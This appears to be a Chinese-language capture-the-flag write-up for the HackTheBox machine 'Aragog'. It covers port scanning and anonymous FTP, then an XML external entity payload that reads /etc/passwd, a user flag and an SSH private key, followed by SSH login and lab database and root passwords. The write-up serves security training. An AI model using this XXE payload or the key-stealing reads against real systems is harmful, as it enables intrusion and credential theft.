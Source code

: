 ```yaml
---
title: Aragog-xml实体注入
categories:
- XXE
tags:
- training
---
```


21，22，80

```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r--r--r--    1 ftp      ftp            86 Dec 21  2017 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ad:21:fb:50:16:d4:93:dc:b7:29:1f:4c:c2:61:16:48 (RSA)
|   256 2c:94:00:3c:57:2f:c2:49:77:24:aa:22:6a:43:7d:b1 (ECDSA)
|_  256 9a:ff:8b:e4:0e:98:70:52:29:68:0e:cc:a0:7d:5c:1f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## 21匿名登陆

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/3.PNG)

test.txt
```
<details>
    <subnet_mask>255.255.255.192</subnet_mask>
    <test></test>
</details>
```
searchsploit vsftpd

3.0.3没有对应exp

## 80

Apache2 Ubuntu Default Page

```
gobuster -u http://10.10.10.78 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
没有发现任何东西
---
searchsploit apache 2.4
searchsploit -m exploits/linux/webapps/42745.py
python3 42745.py -h
python3 42745.py -u 10.10.10.78 -a
[ok] 10.10.10.78: 'OPTIONS,GET,HEAD,POST'

```
除了21端口，看起来是一个很“干净”的系统，找不到attack vector

## writeup
http://10.10.10.78/hosts.php
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/4.PNG)

There are 4294967294 possible hosts for 

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/6.PNG)

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/5.PNG)

发现服务器解析了xml，将子网掩码转换为了主机台数。

参考资料： [owasp-xxe](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing)

xml外部实体注入攻击是解析xml输入的时候产生的。

当xml输入包含一个对外部实体的引用，脆弱的xml解析器处理xml注入的时候，就发生了攻击。

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE details [
<!ELEMENT subnet_mask ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>

```
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/7.PNG)
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/8.PNG)

## info
获得linux用户信息。
```
florian:x:1000:1000:florian,,,:/home/florian:/bin/bash
cliff:x:1001:1001::/home/cliff:/bin/bash

通过替换上述payload关键字“file:///home/florian/user.txt”，获得flag
file:///home/florian/.ssh/id_rsa，获得登陆私钥

ssh -i id_rsa florian@10.10.10.78
```
## 提权
对二进制文件利用。

查看web目录，/var/www/html，发现一个wordpress网页程序。

访问http://10.10.10.78/dev_wiki，burp抓包，配置hosts。

`echo 10.10.10.78 aragog >> /etc/hosts`

访问http://aragog/dev_wiki
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-12/9.PNG)

```
mysql -u root -p
$@y6CHJ^$#5c37j$#6h

show databases;
use wp_wiki;
show tables;
select * from wp_users;
Administrator | $P$B3FUuIdSDW0IaIc4vsjj.NzJDkiscu. 
获取了一串hash值，尝试在线解密失败
```

/usr/bin/whoopsie是一个二进制可执行文件，通过程序的利用，获得su/root的密码

su/!KRgYs(JFO!&MTr)lf

有空再研究吧，睡觉~~


